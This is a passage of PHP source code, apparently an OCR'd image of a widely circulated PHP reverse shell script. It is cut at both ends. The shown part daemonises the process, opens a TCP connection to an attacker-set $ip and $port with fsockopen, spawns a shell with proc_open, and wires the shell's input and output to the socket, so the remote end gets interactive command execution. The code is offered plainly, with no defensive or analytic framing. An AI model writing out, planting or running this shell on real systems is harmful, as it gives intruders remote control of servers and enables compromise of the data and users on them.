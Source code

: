 ```php
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
```